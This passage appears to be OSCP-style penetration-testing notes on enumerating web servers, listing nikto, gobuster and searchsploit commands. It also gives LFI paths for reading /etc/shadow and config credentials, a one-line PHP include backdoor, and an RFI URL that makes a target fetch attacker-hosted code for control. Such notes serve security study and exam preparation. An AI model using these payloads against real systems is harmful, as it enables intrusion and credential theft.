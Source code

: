 - Read / Write access?
  - Pretty much same things as FTP



Also: ***CHECK VERSIONS*** and `searchsploit`





# HTTP - 80, 8080, 8000

```
curl -i ${IP}/robots.txt
```

Note down Server and other module versions.

searchsploit them ALL.

Visit all URLs from robots.txt.

```
nikto -host $IP
```

```
gobuster -u http://$IP -w /usr/share/seclists/Discovery/Web_Content/Top1000-RobotsDisallowed.txt

gobuster -u http://$IP -w /usr/share/seclists/Discovery/Web_Content/common.txt
```

if nothing, find more web word lists.

*Browse the site* but keep an eye on the burp window / source code / cookies etc.

Things to be on look for:

- Default credentials for software
- SQL-injectable GET/POST params
- LFI/RFI through ?page=foo type params
- LFI:
  - `/etc/passwd` | `/etc/shadow` insta-win
  - `/var/www/html/config.php` or similar paths to get SQL etc creds
  - `?page=php://filter/convert.base64-encode/resource=../config.php`
  - `../../../../../boot.ini` to find out windows version
- RFI:
  - Have your PHP/cgi downloader ready
  - `<?php include $_GET['inc']; ?>` simplest backdoor to keep it dynamic without anything messing your output
  - Then you can just `http://$IP/inc.php?inc=http://$YOURIP/bg.php` and have full control with minimal footprint on target machine
  - get `phpinfo()`

### WEB-SERVICES/CMS's:
CMS	https://github.com/s0wr0b1ndef/OSCP-note/tree/master/ENUMERATION/CMS
```
This program attempts to brute-force guess the plugins and themes
installed in a CMS by requesting each plugin or theme name and
looking at the response codes.

The software can currently brute force themes and plugins/modules in:
	Wordpress
	Drupal
	Joomla!
	Mambo
  ```
# HTTPS - 443
